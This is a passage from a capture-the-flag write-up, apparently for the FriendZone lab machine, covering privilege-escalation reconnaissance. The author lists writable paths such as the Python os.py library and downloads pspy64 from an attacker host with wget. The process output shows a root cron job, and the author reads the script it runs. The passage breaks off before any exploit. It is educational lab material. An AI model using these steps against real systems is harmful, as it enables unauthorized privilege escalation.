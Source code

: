 ```
/var/mail/friend
/var/lib/samba/usershares
/var/lib/php/sessions
/tmp
/tmp/output.txt
/tmp/lse.sh
/tmp/.Test-unix
/tmp/.ICE-unix
/tmp/.font-unix
/tmp/pspy64
/tmp/.X11-unix
/tmp/.XIM-unix
/home/friend
/usr/lib/python2.7
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/os.py
```
Now next I download a program called <b>pspy</b> to look at processes running in the background.
```
friend@FriendZone:/tmp$ wget 10.10.14.21/pspy64                                                       
--2019-09-19 21:58:12--  http://10.10.14.21/pspy64                                                    
Connecting to 10.10.14.21:80... connected.                                                            
HTTP request sent, awaiting response... 200 OK                                                        
Length: 4468984 (4.3M) [application/octet-stream]                                                     
Saving to: ‘pspy64’                                                                                   

pspy64                    100%[===================================>]   4.26M   291KB/s    in 19s      

2019-09-19 21:58:31 (233 KB/s) - ‘pspy64’ saved [4468984/4468984]                                     
```
Make the file executable and then run it. You might have to wait a little bit but eventually you should see something interesting.
```
2019/09/19 22:02:01 CMD: UID=0    PID=1445   | /bin/sh -c /opt/server_admin/reporter.py
2019/09/19 22:02:01 CMD: UID=0    PID=1444   | /bin/sh -c /opt/server_admin/reporter.py
```
I have a python file that is being executed as root. Lets check that file out to see if I can do anything.
```
friend@FriendZone:~$ ls -la /opt/server_admin/reporter.py
-rwxr--r-- 1 root root 424 Jan 16  2019 /opt/server_admin/reporter.py
```
So I have read permissions. Reading the file I see something good.
```
friend@FriendZone:~$ cat /opt/server_admin/reporter.py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
```